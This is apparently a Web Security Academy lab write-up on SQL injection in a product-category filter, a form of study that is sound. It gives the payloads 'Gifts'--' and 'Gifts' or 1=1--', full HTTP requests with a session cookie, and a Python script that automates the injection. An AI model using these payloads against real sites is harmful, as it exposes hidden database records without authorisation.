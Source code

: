 # Retrieving hidden data

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/

## Sitemap:

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/
![](./Images/Sitemap0.png)

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/product?productId=8
![](./Images/Sitemap1.png)

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Accessories
![](./Images/Sitemap2.png)

<br>

<br>

## SQL Injection Identification:

![](./Images/Id0.png)

![](./Images/Id1.png)

<br>

![](./Images/Id2.png)

![](./Images/Id3.png)

<br>

<br>

## Exploitation:

### Get all gifts:

Payload:

```bash
https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Gifts'+--+-
```

![](./Images/expl0.png)

Request:

```bash
GET /filter?category=Gifts'+--+- HTTP/2
Host: 0af600d504269c4981e611a0000b002f.web-security-academy.net
Cookie: session=gsdqnAsUxgOANWVniEW3dLMLTFfDhseX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get every item:

Payload:

```bash
https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Gifts'+or+1%3d1--+-
```

![](./Images/expl1.png)

Request:

```bash
GET /filter?category=Gifts'+or+1%3d1--+- HTTP/2
Host: 0af600d504269c4981e611a0000b002f.web-security-academy.net
Cookie: session=gsdqnAsUxgOANWVniEW3dLMLTFfDhseX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

## Automation:

```python
#!/usr/bin/python3
##
import requests
import pwn
import re
#
def main(URL):
    payload=URL+"filter?category=Gifts'+or+1%3d1--+-"
    r=requests.get(payload)
    print(r.status_code)
    print(r.text)
#
main('https://0a7e00f50414faa0801dbc2e00a800a6.web-security-academy.net/')
```

